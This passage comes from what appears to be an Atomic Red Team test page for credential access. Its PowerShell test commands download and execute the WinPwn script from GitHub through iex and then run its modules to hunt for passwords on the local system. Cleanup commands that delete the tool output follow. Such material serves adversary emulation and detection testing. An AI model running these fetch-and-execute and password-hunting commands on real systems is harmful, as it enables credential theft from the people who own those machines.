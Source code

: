 




#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
powershellsensitive -consoleoutput -noninteractive
```






<br/>
<br/>

## Atomic Test #10 - WinPwn - passhunt
Search for Passwords on this system using passhunt via WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 00e3e3c7-6c3c-455e-bd4b-461c7f0e7797






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
passhunt -local $true -noninteractive
```

#### Cleanup Commands:
```powershell
rm -force .\passhunt.exe -ErrorAction Ignore
rm -force .\phunter* -ErrorAction Ignore
rm -force -recurse .\DomainRecon -ErrorAction Ignore
rm -force -recurse .\Exploitation -ErrorAction Ignore
rm -force -recurse .\LocalPrivEsc -ErrorAction Ignore
rm -force -recurse .\LocalRecon -ErrorAction Ignore
rm -force -recurse .\Vulnerabilities -ErrorAction Ignore
```





<br/>
<br/>

